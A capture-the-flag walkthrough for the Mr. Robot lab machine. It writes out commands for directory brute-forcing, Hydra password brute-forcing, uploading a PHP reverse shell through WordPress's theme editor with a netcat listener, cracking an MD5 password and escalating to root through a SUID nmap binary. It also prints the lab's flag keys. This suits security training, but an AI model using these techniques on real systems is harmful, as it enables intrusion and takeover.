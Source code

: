 # **Mr. Robot CTF Walkthrough** 🏴‍☠️  
🎯 **Completed by: c1ph3r1337**  

## **1️⃣ Directory Bruteforcing (Gobuster)**  
🔹 **Key 1st**  

- Use `directories.txt` for brute-forcing:  
  ```bash
  gobuster dir -u http://<target-IP> -w /path/to/directories.txt
  ```
- Found `robots.txt` → `key-1-of-3.txt`  
- **Key 1:** `073403c8a58a1f80d943455fb30724b9`  

---

## **2️⃣ Cryptography (CyberChef)**  
- Found `../license` file → Scroll down to find a key.  
- Decode using **CyberChef**:  
  ```
  ZWxsaW90OkVSMjgtMDY1Mgo=
  ```
  ➡️ Decoded: **elliot:ER28-0652**  

---

## **3️⃣ Password Bruteforcing (Hydra) [Skipped]**  
🔹 Although I didn’t use Hydra, here’s how it works:  
```bash
hydra -l <username> -P <password-list> <target-IP> -t <threads> <protocol>
```
- `-l` → Single username  
- `-L` → List of usernames  
- `-p` → Single password  
- `-P` → List of passwords  
- `-t` → Threads (default 16)  
- `<protocol>` → Service (e.g., SSH, FTP)  

---

## **4️⃣ WordPress Login (Gobuster)**  
- **Found login page:** `../wp-login.php`  
- Used credentials:  
  ```
  Username: elliot  
  Password: ER28-0652  
  ```

---

## **5️⃣ Reverse Shell (PHP rev shell)**  
🔹 **Key 2nd**  

- Generate a **PHP reverse shell** from [www.revshells.com](https://www.revshells.com/) (PentestMonkey)  
- Modify the shell:  
  - Change `10.10.10.10` to **your tun0 IP**  
- Upload to **WordPress theme editor** and update.  
- Access shell via browser:  
  ```
  http://<target-IP>/xyz.php
  ```
- Start Netcat listener:  
  ```bash
  nc -lvnp <port>
  ```
- Spawn a stable shell:  
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
- Extract password:  
  ```bash
  cd home/robot  
  cat password.raw-md5
  ```
  ```
  c3fcd3d76192e4007dfb496cca67e13b  → MD5 hash  
  ```
- Decrypt MD5 (`hash: abcdefghijklmnopqrstuvwxyz`)  
- Switch user:  
  ```bash
  su robot  
  Password: abcdefghijklmnopqrstuvwxyz  
  ```
- **Key 2:** `822c73956184f694993bede3eb39f959`  

---

## **6️⃣ Privilege Escalation (GTFOBins - Nmap Shell)**  
🔹 **Key 3rd**  

### **What is Privilege Escalation?**  
> Privilege escalation exploits vulnerabilities, design flaws, or misconfigurations to gain higher-level access within a system.

- **Check for restricted access:**  
  ```bash
  ls /root  
  ```
  **Permission denied**  

- **Find SUID binaries:**  
  ```bash
  find / -perm -6000 2>/dev/null | grep '/bin/'
  ```
  **Found:** `/usr/local/bin/nmap`  

- **Exploit using GTFOBins**  
  - Visit: [gtfobins.github.io](https://gtfobins.github.io)  
  - Run interactive Nmap shell:  
    ```bash
    nmap --interactive  
    !sh  
    ```
  - Verify root access:  
    ```bash
    whoami
    ```
  - Access final key:  
    ```bash
    cd /root  
    ls  
    cat key-3-of-3.txt  
    ```
  - **Key 3:** `04787ddef27c3dee1ee161b21670b4e4`  

**🔹 Completed by: C1ph3r1337** 🏆
